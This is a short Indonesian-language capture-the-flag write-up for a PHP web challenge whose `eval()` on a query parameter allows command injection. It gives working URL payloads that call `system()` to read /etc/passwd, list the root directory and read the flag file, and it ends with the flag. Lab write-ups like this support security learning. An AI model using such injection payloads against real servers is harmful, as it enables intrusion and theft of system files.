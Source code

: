 # Warm
[http://146.190.202.192:10003/](http://146.190.202.192:10003/)

Pemanasan itu penting, ingat itu baik baik

#webexp #wu #php #commandinjection #pembinaan-gelatik-laos-25
___
![chall](./img/chall.png)

Terdapat source code php sederhana dengan point-point berikut:
- Apabila mengakses `?__=`, function `eval()` akan menjalankan string yang kita masukkan.
- selain itu akan menampilkan `__file__` yang kita lihat diawal chall.

Kerentanan pada web ini termasuk pada Command Injection, apalagi terdapat function `eval()` yang memungkinkan kita untuk mengeksekusi perintah.

Gunakan function seperti `exec()`, `shell_exec()` atau `system()` untuk mencoba mengakses file server.

Ketika menggunakan `system()`, berhasil mendapatkan tampilan
```
http://146.190.202.192:10003/?__=system(%22cat%20/etc/passwd%22);
```

![/etc/passwd](./img/etc-passwd.png)

Sekarang, coba untuk menjelajah root.
```
http://146.190.202.192:10003/?__=system(%22ls%20/%22);
```

![root](./img/root.png)

Terdapat file yang bernama `flag.txt`, tinggal cek aja.
```
http://146.190.202.192:10003/?__=system(%22cat%20/flag.txt%22);
```

![flag](./img/flag.png)

```
LAOS{Pemanasan_dulu_gak_sehh_kawannn}
```